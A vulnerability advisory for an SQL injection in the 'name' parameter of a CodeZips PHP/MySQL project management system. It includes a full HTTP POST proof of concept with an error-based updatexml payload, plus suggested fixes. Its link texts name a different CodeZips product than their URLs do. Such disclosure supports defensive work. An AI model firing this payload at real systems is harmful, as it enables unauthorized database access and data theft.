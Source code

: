 # CodeZips Project Management System In PHP And MYSQL With Source Code V1.0 /pages/forms/advanced.php SQL injection

## NAME OF AFFECTED PRODUCT(S)

- ` Project Management System In PHP And MYSQL With Source Code`

## Vendor Homepage

- [https://codezips.com/php/technical-discussion-forum-using-php-with-source-code/](https://codezips.com/php/project-management-system-in-php-and-mysql-with-source-code/)

## Software Link

- [https://codeload.github.com/codezips/Technical-Discussion-Forum/zip/master](https://codeload.github.com/codezips/project-management-system-php-mysql/zip/master)

## Vendor

- `codezips`

## Vulnerability Type

- `SQL injection`

## Root Cause

- A SQL injection vulnerability was found in the '/pages/forms/advanced.php' file of the 'Project Management System In PHP And MYSQL With Source Code' project.   The reason for this issue is that attackers inject malicious code from the parameter 'name' and use it directly in SQL queries without the need for appropriate cleaning or validation.   This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

  <img src="./image/1.png" style="zoom:150%;" />

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve  unauthorized database access, sensitive data leakage, data tampering,  comprehensive system control, and even service interruption, posing a  serious threat to system security and business continuity.

## DESCRIPTION

- During the security review of "Project Management System In PHP And MYSQL With Source Code", wangjiawei  discovered a critical SQL injection vulnerability in the "/pages/forms/advanced.php" file.   This vulnerability stems from insufficient  user input validation of the 'name' parameter, allowing attackers to inject malicious SQL queries.   Therefore, attackers can gain  unauthorized access to databases, modify or delete data, and access  sensitive information.   Immediate remedial measures are needed to ensure  system security and protect data integrity.

## Vulnerability details and POC

Vulnerability Name: 
- "name" Parameter

### poc
```
POST /pages/forms/advanced.php HTTP/1.1
Host: 192.168.75.230:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 113
Origin: http://192.168.75.230:8080
Sec-GPC: 1
Connection: close
Referer: http://192.168.75.230:8080/pages/forms/advanced.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i

name=1' or updatexml(1,concat(0x7e,(database())),0) or '&id=1&year=1-1&email=123%40qq.com&phone=111&submit=Submit
```

<img src="./image/2.png" style="zoom:150%;" />

## Suggested fixes

1. **Use prepared statements and parameter binding:**
    Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered  by the user is treated as pure data and will not be interpreted as SQL  code.
2. **Input validation and filtering:**
    Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Regular security audits:**
    Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
